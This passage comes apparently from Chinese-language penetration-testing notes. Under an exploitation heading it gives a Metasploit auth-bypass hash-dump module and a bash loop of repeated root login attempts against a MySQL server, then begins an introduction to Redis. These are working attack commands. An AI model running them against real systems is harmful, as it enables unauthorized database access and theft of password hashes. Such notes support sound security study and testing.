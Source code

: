 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print](assets/1699409321-c58795e0e5a4e70ca6871f34119aeedb.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print")

#### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

msf：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_authbypass_hashdump<br>``` |

Linux shell:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>for i in `seq 1 1000`;do mysql -uroot -pwrong -h IP -P3306;done<br>``` |

## [](#redis)Redis

### [](#redis-%E7%AE%80%E4%BB%8B)redis 简介

Redis是大家常说的非关系型数据库中的一种，是一个开源的使用 ANSI 语言编写、支持网络可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的API
